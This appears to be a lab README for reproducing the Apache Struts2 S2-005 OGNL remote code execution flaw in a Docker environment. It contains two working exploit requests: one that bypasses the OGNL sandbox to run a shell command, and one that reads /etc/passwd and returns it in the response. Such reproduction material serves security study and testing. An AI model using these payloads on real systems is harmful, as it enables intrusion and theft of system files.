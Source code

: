 # S2-005 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.1.8.1

Details: http://struts.apache.org/docs/s2-005.html

## Reference

Refer 《White hat speaking Web Security》 by Wu Hanqing (Author)

> s2-005 is a vulnerability which originating from S2-003(version: < 2.0.12), This behavior has been filtered in S2-003, but it turned out that the resulting fix based on whitelisting acceptable parameter names closed the vulnerability only partially.

XWork will parse the keys and values of the GET parameter into Java statements using OGNL expressions, such as:

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//It will be converted to
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

Process follows:

- In S2-003 Use `\u0023` to bypass struts2's filter `#`
- After S2-003 struts2 added security mode (sandbox)
- In S2-005 Use the OGNL expression to close the security mode and bypass again

## Setup

Run the following commands to start the environment

```
docker-compose build
docker-compose up -d
```

## POC && EXP

### Remote code execution POC (don't have display echo, use `@` instead space)

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```

Some others POC will return 400 in tomcat8.Because the characters `\`, `"` can't be placed directly in the path, we need urlencode it before send.

This POC don't have display, used OGNL's Expression Evaluation:

![](1.jpeg)

`(aaa)(bbb)`, `aaa` is used as the OGNL expression string, and `bbb` is the root object of the expression. Therefore, if we needs to execute code like `aaa`, it needs to be wrapped in quotation marks, and the `bbb` position can directly place the Java statement. `(aaa)(bbb)=true` is actually `aaa=true`.

However, how to understand exactly, it needs further research and to be optimized. Hope someone can write a POC that can display echo.

### Remote code execution POC (have display echo, command need urlencode)

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626
redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

![](s2-005-3.png)

![](s2-005-4.png)
